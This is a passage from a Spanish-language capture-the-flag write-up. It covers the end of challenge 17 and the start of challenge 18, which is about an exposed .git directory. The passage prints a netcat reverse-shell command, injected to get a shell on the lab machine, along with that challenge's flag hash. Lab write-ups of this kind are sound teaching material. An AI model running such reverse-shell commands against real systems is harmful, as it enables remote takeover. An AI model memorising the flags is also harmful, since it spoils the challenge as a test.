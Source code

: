 Inyectamos el siguiente comando para establecer una conexión reversa, añadimos la redirección de STDERR para visualizar cualquier error, como por ejemplo, que no exista la opción `-e` en esta versión de *netcat*.
```bash
nc -e /bin/bash 192.168.2.16 3000 2>&1
```

![](img/17-interactive-reverse-shell.png)


![](img/17-flag.png)


FLAG: `b58706bbf7ec1046a7dcfdea5395d8b9`


## Reto 18 - All your phones belong to us

```
NOTA: Fichero /root/flag.txt
```

![](img/18-nmap.png)

Utilizando nikto encontramos que el directorio `.git` es accesible.
